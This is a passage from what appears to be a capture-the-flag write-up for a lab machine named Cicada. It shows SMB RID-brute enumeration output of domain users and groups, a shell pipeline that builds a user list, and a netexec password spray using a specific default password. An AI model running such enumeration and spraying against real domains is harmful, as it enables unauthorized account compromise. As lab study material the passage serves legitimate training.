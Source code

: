 ```
SMB         10.129.78.76    445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.78.76    445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.78.76    445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.78.76    445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.78.76    445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.78.76    445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Let's post process list returned by `netexec`, so we could use it as password spray input.
```
grep SidTypeUser rid-brute.txt | awk '{print $13}' | cut -d'\' -f2 | sort | uniq > users.txt &&\
cat users.txt
```
```
Administrator
CICADA-DC$
david.orelious
emily.oscars
Guest
john.smoulder
krbtgt
michael.wrightson
sarah.dantelia
```

Having target users in `users.txt` let's spray default password using `netexec`.
```
netexec smb $TARGET_IP -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
```
SMB         10.129.78.76    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```
